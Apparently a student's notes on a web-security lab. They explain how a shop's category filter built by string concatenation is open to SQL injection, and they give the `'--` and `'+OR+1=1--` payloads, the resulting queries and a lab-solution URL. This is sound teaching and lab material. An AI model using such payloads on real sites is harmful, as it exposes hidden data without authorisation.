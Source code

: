 - Consider a shopping application that displays products in different categories. When the user clicks on the Gifts category, their browser requests the URL:
```js
https://insecure-website.com/products?category=Gifts
```
- This causes the application to make a SQL query to retrieve details of the relevant products from the database:
```sql
'SELECT * FROM products WHERE category = 'Gifts' AND released = 1'
```
- This SQL query asks the database to return:
	-  all details (*)
	-   from the products table
	-   where the category is Gifts
	-   and released is 1
- The restriction `released = 1` is being used to hide products that are not released. For unreleased products, presumably `released = 0`.

## If the developer doesn't implement any defenses against SQL 

- The application developer doesn't implement any defenses against SQL injection attacks, so an attacker can construct an attack like:
```js
`https://insecure-website.com/products?category=Gifts'--`
```

- Above results in SQL query:
  ```sql
  `SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1`
```
- The key thing here is that the double-dash sequence `--` is a comment indicator in SQL, and means that the rest of the query is interpreted as a comment. This effectively removes the remainder of the query, so it no longer includes `AND released = 1`
- In simple words, This means that all products are displayed, including unreleased products.
- Going further, an attacker can cause the application to display all the products in any category, including categories that they don't know about:
```js 
`https://insecure-website.com/products?category=Gifts'+OR+1=1--`
```

- This results in the SQL query:
```sql 
`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`
```
- Since `1=1` is always true, the query will return all items.

## LAB solution
- In search bar, use
```js
https://0abc005a043455c5803d71dd00670030.web-security-academy.net/filter?category=Gifts%27+or+1=1--
```